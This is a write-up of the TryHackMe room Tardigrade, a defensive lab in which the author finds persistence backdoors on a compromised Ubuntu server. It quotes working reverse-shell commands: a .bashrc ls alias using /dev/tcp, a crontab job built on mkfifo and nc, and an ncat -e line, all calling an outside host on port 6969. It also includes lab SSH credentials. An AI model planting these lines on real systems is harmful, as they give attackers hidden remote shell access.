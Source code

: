 ```yaml
---
date: 2024-03-30 09:54:18
layout: post
title: TryHackMe - Tardigrade - Write-Up
subtitle: Can you find all the basic persistence mechanisms in this Linux endpoint?
description: A write-up and walkthrough of the TryHackMe room Tardigrade
image: /assets/img/uploads/pexels-tima-miroshnichenko-5380594-resized.jpg
optimized_image: /assets/img/uploads/pexels-tima-miroshnichenko-5380594.jpg
category: "{{slug}}"
tags:
  - tryhackme
  - tardigrade
  - write-up
author: Michael
paginate: false
---
```

The TryHackMe room Tardigrade can be found [here](https://tryhackme.com/r/room/tardigrade).

> A server has been compromised, and the security team has decided to isolate the machine until it's been thoroughly cleaned up. Initial checks by the Incident Response team revealed that there are five different backdoors. It's your job to find and remediate them before giving the signal to bring the server back to production.

Today we'll be looking at the TryHackMe room Tardigrade and trying discover all the modes of persistence left by a malicious actor.  Let's get started!

### Task 1: Connect to the machine via SSH

To begin, we'll connect to the compromised server.  We've been given the following credentials to gain access:

> user: giorgio
>
> password: armani

We've also been told that the **giorgio** account has **root access** to the server -- nice! Though perhaps also nice for our malicious friend...

##### What is the server's OS version?

Our first question asks us to find the verify the version of operating system installed on the server.

An easy way to access that information on Linux is with the command `lsb_release -a`:

![lsb_release -a output](/assets/img/uploads/lsb_release-a.png "output of lsb_release -a")

This will give us the distribution-specific information we're looking for.  We can simplify our search further by running `lsb_release -d` instead, which will give us just the "Description" section, which contains our answer:

![lsb_release -d output](/assets/img/uploads/lsb_release-d.png "output of lsb_release -d")

**Answer:** Ubuntu 20.04.4 LTS  

### Task 2: Investigating the giorgio account

> Since we're in the giorgio account already, we might as well have a look around.

##### What's the most interesting file you found in giorgio's home directory?

Something's weird in giorgio's home directory.  When we run `ls -la` to take a look, we find a "bad" file:

![.bad_bash](/assets/img/uploads/bad_bash.png ".bad_bash")

A name that on the nose can't be anything healthy.  Best not to run it.

**Answer:** .bad_bash

> In every investigation, it's important to keep a dirty wordlist to keep track of all your findings, no matter how small. It's also a way to prevent going back in circles and starting from scratch again. As such, now's a good time to create one and put the previous answer as an entry so we can go back to it later.

More on this later.

##### Another file that can be found in every user's home directory is the .bashrc file. Can you check if you can find something interesting in giorgio's .bashrc?

Running a `cat` command on .bashrc immediately shows us a concerning alias:

![.bashrc](/assets/img/uploads/bashrc.png ".bashrc")

The `ls` command has been assigned an alias that attempts to create a reverse shell to `172.10.6.9` on port `6969` before listing the directory contents.  The command even runs the process in the background and "disowns" it so the connection remains active if the shell session ends!

I'd call that interesting.

**Answer:** alias ls='(bash -i >& /dev/tcp/172.10.6.9/6969 0>&1 & disown) 2>/dev/null; ls --color=auto'

> It seems we've covered the usual bases in giorgio's home directory, so it's time to check the scheduled tasks that he owns.

##### Did you find anything interesting about scheduled tasks?

To see the scheduled tasks on a Linux system, we can run `crontab -l`:

![crontab -l](/assets/img/uploads/crontab-l.png "crontab -l")

We see one job scheduled, and it's attempting to create a reverse shell to the same address and port as before.

**Answer:** /usr/bin/rm /tmp/f;/usr/bin/mkfifo /tmp/f;/usr/bin/cat /tmp/f|/bin/sh -i 2>&1|/usr/bin/nc 172.10.6.9 6969 >/tmp/f

### Task 3: Dirty Wordlist Revisited

> A dirty wordlist is essentially raw documentation of the investigation from the investigator's perspective. It may contain everything that would help lead the investigation forward, from actual IOCs to random notes. Keeping a dirty wordlist assures the investigator that a specific IOC has already been recorded, helping keep the investigation on track and preventing getting stuck in a closed loop of used leads. 

This part of the room doesn't have us investigate anything, but instead goes into more detail about the idea of a dirty wordlist to help during investigations.  We're provided a flag in the instructions.

### Task 4: Investigating the root account

> Normal user accounts aren't the only place to leave persistence mechanisms. As such, we will then go ahead and investigate the root account. 

##### A few moments after logging on to the root account, you find an error message in your terminal.  What does it say?

As mentioned, giorgio has root access to the server, so we escalate our privileges with `sudo -s` and receive an odd message:

![Ncat: TIMEOUT.](/assets/img/uploads/sudo-s.png)

**Answer:** Ncat: TIMEOUT.

##### After moving forward with the error message, a suspicious command appears in the terminal as part of the error message.  What command was displayed?

We press enter to continue and are provided another unexpected result:

![](/assets/img/uploads/sudo-s-2.png)

How did that happen? I didn't even do anything -- I just logged as root, and it happened.

**Answer**: ncat -e /bin/bash 172.10.6.9 6969

> You might wonder, "how did that happen? I didn't even do anything? I just logged as root, and it happened."

...yes, quite.

##### Can you find out how the suspicious command has been implemented?

To figure out this situation, we revisit our friend .bashrc, but for the root account this time

![](/assets/img/uploads/bashrc-root.png)

and we find our culprit: yet another reverse shell.  Our malicious friend sure is persistent.

**Answer:** .bashrc

### Task 5: Investigating the system

> After checking the giorgio and the root accounts, it's essentially a free-for-all from here on, as finding more suspicious items depends on how well you know what's "normal" in the system.
>
> Answer the questions below
>
> There's one more persistence mechanism in the system.
>
> A good way to systematically dissect the system is to look for "usuals" and "unusuals". For example, you can check for commonly abused or unusual files and directories.
>
> This specific persistence mechanism is directly tied to *something* (or someone?) already present in fresh Linux installs and may be abused and/or manipulated to fit an adversary's goals. 

##### What's its name? What is the last persistence mechanism?

The above instructions heavily imply that there is something amiss with an account, so let's check out /etc/passwd to see if anything stands out:

![](/assets/img/uploads/nobody.png)

The nobody is looking a lot like somebody!

We might normally expect the nobody account to have an /etc/passwd entry like this

```
nobody:x:65534:65534:Nobody:/nonexistent:/usr/sbin/nologin
```